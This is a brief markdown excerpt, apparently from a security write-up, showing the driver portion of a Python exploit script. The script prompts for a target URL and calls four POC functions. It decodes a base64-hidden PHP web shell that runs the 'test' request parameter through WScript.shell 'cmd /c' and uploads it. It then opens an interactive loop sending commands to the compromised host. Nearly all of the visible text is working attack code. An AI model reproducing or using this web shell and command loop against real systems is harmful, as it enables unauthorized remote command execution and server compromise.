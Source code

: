 ```python
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
    POC_2(target_url)
    payload_php = base64.b64decode("PD9waHAKICAgICRjb21tYW5kPSRfR0VUWyd0ZXN0J107CiAgICAkd3NoID0gbmV3IENPTSgnV1NjcmlwdC5zaGVsbCcpOwogICAgJGV4ZWMgPSAkd3NoLT5leGVjKCJjbWQgL2MgIi4kY29tbWFuZCk7CiAgICAkc3Rkb3V0ID0gJGV4ZWMtPlN0ZE91dCgpOwogICAgJHN0cm91dHB1dCA9ICRzdGRvdXQtPlJlYWRBbGwoKTsKICAgIGVjaG8gJHN0cm91dHB1dDsKPz4=").decode("utf-8")
    POC_3(target_url, payload_php)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        else:
            POC_4(target_url, cmd)
```

![image-20220209110115108](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091101200.png)